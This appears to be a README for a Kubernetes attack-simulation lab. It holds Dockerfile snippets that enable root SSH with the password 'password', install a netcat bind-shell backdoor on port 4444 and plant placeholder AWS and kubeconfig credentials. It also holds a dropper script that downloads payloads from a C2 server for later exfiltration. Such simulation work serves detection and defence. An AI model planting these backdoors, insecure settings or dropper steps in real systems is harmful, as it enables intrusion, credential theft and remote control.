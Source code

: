 here we pre-configure some vulnerable services and credentials.

```Dockerfile
# Setup SSH server to listen on port 22
RUN mkdir /var/run/sshd
RUN echo 'root:password' | chpasswd
RUN sed -i 's/#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config
RUN sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/' /etc/ssh/sshd_config

# Setup vulnerable services
# Netcat listener on port 4444
RUN echo '#!/bin/bash\nwhile true; do nc -l -p 4444 -e /bin/bash || sleep 10; done' > /usr/local/bin/nc-backdoor && \
    chmod +x /usr/local/bin/nc-backdoor
```

and create some intentionally insecure credential files to be discovered during the attack simulation (if they don't already exist).

```Dockerfile
# Create sensitive files with credentials
RUN mkdir -p /root/.aws && \
    echo '[default]\naws_access_key_id = AKIAIOSFODNN7EXAMPLE\naws_secret_access_key = wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY\nregion = us-west-2' > /root/.aws/credentials

RUN mkdir -p /root/.kube && \
    echo 'apiVersion: v1\nclusters:\n- cluster:\n    certificate-authority-data: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUI=\n    server: https://kubernetes.default.svc\n  name: kubernetes\ncontexts:\n- context:\n    cluster: kubernetes\n    user: kubernetes-admin\n  name: kubernetes-admin@kubernetes\ncurrent-context: kubernetes-admin@kubernetes\nkind: Config\npreferences: {}\nusers:\n- name: kubernetes-admin\n  user:\n    client-certificate-data: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUI=\n    client-key-data: LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0aBcEE=' > /root/.kube/config
```

## attack

### dropper

when `sim-pod` gets created, it automatically executes a dropper script: `dropper.sh`. this is the entry point. `payload-server` gets deployed to act as the C2 server.

`dropper.sh` downloads all the attack components first. it then runs the main payload script `run.sh` and keeps the container alive. `run.sh` performs the multi-stage attack sequence and exfiltrates the data to the payload server.

```bash
#!/bin/bash
mkdir -p /tmp/payloads
cd /tmp/payloads

# Download payloads from the payload server
echo "Downloading payloads from payload server..."
curl -s http://payload-server.default.svc.cluster.local:8080/xmx2 -o xmx2 || echo "Failed to download xmx2"
curl -s http://payload-server.default.svc.cluster.local:8080/www -o www || echo "Failed to download www"
curl -s http://payload-server.default.svc.cluster.local:8080/cc.py -o cc.py || echo "Failed to download cc.py"
curl -s http://payload-server.default.svc.cluster.local:8080/pt -o pt || echo "Failed to download pt"
curl -s http://payload-server.default.svc.cluster.local:8080/xmx2.so -o xmx2.so || echo "Failed to download xmx2.so"
curl -s http://payload-server.default.svc.cluster.local:8080/run.sh -o run.sh || echo "Failed to download run.sh"
```